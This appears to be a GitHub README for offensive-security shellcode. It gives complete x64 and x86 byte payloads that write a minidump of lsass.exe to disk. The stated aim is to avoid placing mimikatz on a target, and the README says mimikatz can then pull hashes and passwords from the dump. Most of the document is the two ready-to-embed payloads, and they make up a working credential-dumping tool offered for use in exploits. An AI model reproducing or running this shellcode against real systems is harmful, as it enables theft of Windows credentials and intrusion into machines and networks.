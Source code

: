 # Shellcode for creating a minidump-file (.dmp) of lsass.exe

**Purpose:** Created to avoid putting mimikatz directly on the targed system. The shellcode can be incorporated into different projects/exploits etc. 

**Limitations:** The SeDebugPrivilege has to be enabled before using the shellcode. *(Hint: Powershell enables SeDebugPrivileged by default if the current user is allowed to use it i.e the local administrator).*  

**Script:** The script is created in Python3 with the keystone-engine module (pip install keystone-engine)

**Where:** A file named lsass.dmp is created within the directory where the shellcode is executed.

**Fun-fact:** The Win32 API used: MiniDumpWriteDump is located within dbgcore.dll and not dbghelp.dll. For more information [MiniDumpWriteDump according to msdn](https://docs.microsoft.com/en-us/windows/win32/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump)

**Idea:** The idea came from reading this c++ script from [ired.team](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/dumping-lsass-passwords-without-mimikatz-minidumpwritedump-av-signature-bypass) 

**Thanks:** Offensive-Security and their [Exploit Development course Exp-301](https://www.offensive-security.com/exp301-osed/)

## Example:
The script can be executed directly using Python. Otherwise, extract the opcodes and use them in another project. 
![Dumping lsass.exe](/img/First.PNG "Example")

After the lsass.dmp is created, Mimikatz can be used to extract the hashes and/or passwords.
![Extracting using mimikatz](/img/Second.PNG "Example")

## x64 shellcode:
payload = ("\x48\x89\xe5\x48\x31\xc0\xb8\xff\xfc\xff\xff\xff\xc0\xf7\xd8\x48\x29\xc4\x48\x31\xc9\x65\x48\x8b\x71\x60\x48\x8b\x76\x18\x48\x8b\x76\x30\x48\x8b\x36\x48\x8b\x36\x4c\x8b\x66\x10\xeb\x67\x41\x5e\x48\x31\xc0\x48\x31\xff\x48\x31\xdb\x41\x8b\x44\x24\x3c\xbf\x78\xff\xff\xff\xf7\xdf\x01\xf8\x41\x8b\x3c\x04\x4c\x01\xe7\x8b\x4f\x18\x8b\x5f\x20\x4d\x89\xe0\x49\x01\xd8\x67\xe3\x35\xff\xc9\x41\x8b\x34\x88\x4c\x01\xe6\x48\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x44\x39\xfa\x75\xde\x8b\x57\x24\x4c\x01\xe2\x66\x8b\x0c\x4a\x8b\x57\x1c\x4c\x01\xe2\x8b\x04\x8a\x4c\x01\xe0\x41\x56\xc3\x41\xbf\x7e\xd8\xe2\x73\xe8\x8e\xff\xff\xff\x48\x89\x45\x10\x41\xbf\x8e\x4e\x0e\xec\xe8\x7f\xff\xff\xff\x48\x89\x45\x18\x41\xbf\xed\xdf\x54\xe4\xe8\x70\xff\xff\xff\x48\x89\x45\x20\x41\xbf\x4a\x65\x76\x47\xe8\x61\xff\xff\xff\x48\x89\x45\x28\xb8\x5b\xe8\xff\x83\xf7\xd8\x41\x89\xc7\xe8\x4e\xff\xff\xff\x48\x89\x45\x30\x41\xbf\xc0\x97\xe2\xef\xe8\x3f\xff\xff\xff\x48\x89\x45\x38\x31\xc0\x50\xb8\x9c\x93\x93\xff\xf7\xd8\x50\x48\xb8\x64\x62\x67\x63\x6f\x72\x65\x2e\x50\x48\x8d\x0c\x24\x48\x83\xec\x40\xff\x55\x18\x48\x83\xc4\x40\x49\x89\xc4\x41\xbf\x93\xb8\xce\x79\xe8\x08\xff\xff\xff\x48\x89\x45\x40\x48\x31\xd2\x48\x89\xd1\x48\xff\xc1\x48\xff\xc1\x48\x83\xec\x40\xff\x55\x20\x48\x83\xc4\x40\x49\x89\xc5\x48\xc7\xc0\xc8\xfd\xff\xff\x48\xf7\xd8\x50\x48\x31\xc0\x89\x44\x24\x04\x89\x44\x24\x08\x89\x44\x24\x0c\x89\x44\x24\x10\x89\x44\x24\x14\x48\x89\x44\x24\x18\x89\x44\x24\x20\x89\x44\x24\x24\x49\x89\xe6\xb8\x9b\xff\xff\xff\xf7\xd8\x50\x48\xb8\x6c\x73\x61\x73\x73\x2e\x65\x78\x50\x49\x89\xe7\x48\x31\xc0\x48\xff\xc0\xfc\xeb\x27\x48\x83\xec\x40\x4c\x89\xe9\x4c\x89\xf2\xff\x55\x28\x49\x8d\x7e\x2c\x48\x83\xc4\x40\x48\x31\xc9\xb1\x09\x4c\x89\xfe\xf3\xa6\x75\x06\x4d\x8b\x66\x08\xeb\x04\x85\xc0\x75\xd5\x48\x83\xec\x40\xb9\x01\xf0\xe0\xff\xf7\xd9\x48\x31\xd2\x4d\x89\xe0\xff\x55\x38\x48\x83\xc4\x40\x49\x89\xc5\x48\x31\xc0\x50\xb8\x90\xff\xff\xff\xf7\xd8\x50\x48\xb8\x6c\x73\x61\x73\x73\x2e\x64\x6d\x50\x48\x89\xe1\x48\x83\xec\x40\x48\x31\xc0\xb0\x10\xc1\xe0\x18\x48\x89\xc2\x4d\x31\xc0\x4d\x31\xc9\x48\x31\xc0\x48\xff\xc0\x48\xff\xc0\x48\x89\x44\x24\x20\x48\x31\xc0\xb0\x80\x48\x89\x44\x24\x28\x48\x31\xc0\x48\x89\x44\x24\x30\xff\x55\x30\x49\x89\xc6\x48\x83\xc4\x40\x48\x83\xec\x40\x4c\x89\xe9\x4c\x89\xe2\x4d\x89\xf0\x4d\x31\xc9\x4c\x89\x4c\x24\x20\x4c\x89\x4c\x24\x28\x4c\x89\x4c\x24\x30\x49\xff\xc1\x49\xff\xc1\xff\x55\x40\x48\x83\xc4\x40\x31\xc9\xff\x55\x10")

## x86 shellcode:
payload = ("\x89\xe5\x81\xc4\xf0\xfc\xff\xff\x31\xc9\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x5e\x08\x8b\x7e\x20\x8b\x36\x66\x39\x4f\x18\x75\xf2\xeb\x06\x5e\x89\x75\x04\xeb\x54\xe8\xf5\xff\xff\xff\x60\x8b\x43\x3c\x8b\x7c\x03\x78\x01\xdf\x8b\x4f\x18\x8b\x47\x20\x01\xd8\x89\x45\xfc\xe3\x36\x49\x8b\x45\xfc\x8b\x34\x88\x01\xde\x31\xc0\x99\xfc\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x24\x75\xdf\x8b\x57\x24\x01\xda\x66\x8b\x0c\x4a\x8b\x57\x1c\x01\xda\x8b\x04\x8a\x01\xd8\x89\x44\x24\x1c\x61\xc3\x68\x83\xb9\xb5\x78\xff\x55\x04\x89\x45\x10\x68\x8e\x4e\x0e\xec\xff\x55\x04\x89\x45\x14\x68\xed\xdf\x54\xe4\xff\x55\x04\x89\x45\x18\x68\x4a\x65\x76\x47\xff\x55\x04\x89\x45\x1c\xb8\x5b\xe8\xff\x83\xf7\xd8\x50\xff\x55\x04\x89\x45\x20\x68\xc0\x97\xe2\xef\xff\x55\x04\x89\x45\x24\xb8\x9c\x93\x93\xff\xf7\xd8\x50\x68\x6f\x72\x65\x2e\x68\x64\x62\x67\x63\x54\xff\x55\x14\x89\xc3\x68\x93\xb8\xce\x79\xff\x55\x04\x89\x45\x28\x31\xc0\x50\x40\x40\x50\xff\x55\x18\x89\x45\x2c\x31\xc0\x50\x50\x50\x50\x50\x50\x50\x50\x50\xb8\xd8\xfe\xff\xff\xf7\xd8\x50\x54\x5b\xb8\x9b\xff\xff\xff\xf7\xd8\x50\xb8\x73\x2e\x65\x78\x50\xb8\x6c\x73\x61\x73\x50\x89\x65\x30\x31\xc0\x40\xfc\xeb\x1d\x53\xff\x75\x2c\xff\x55\x1c\x8d\x7b\x24\x31\xc9\xb1\x09\x8b\x75\x30\xf3\xa6\x75\x08\x8b\x73\x08\x89\x75\x34\xeb\x04\x85\xc0\x75\xdf\xb8\x90\xff\xff\xff\xf7\xd8\x50\xb8\x73\x2e\x64\x6d\x50\xb8\x6c\x73\x61\x73\x50\x89\xe3\x31\xc0\x50\xb0\x80\x50\x31\xc0\x40\x40\x50\x31\xc0\x50\x50\xb0\x10\xc1\xe0\x18\x50\x53\xff\x55\x20\x89\x45\x38\xff\x75\x34\x31\xc0\x50\xb8\x01\xf0\xe0\xff\xf7\xd8\x50\xff\x55\x24\x89\x45\x3c\x31\xc0\x50\x50\x50\x40\x40\x50\xff\x75\x38\xff\x75\x34\xff\x75\x3c\xff\x55\x28\x31\xc9\x51\x6a\xff\xff\x55\x10")
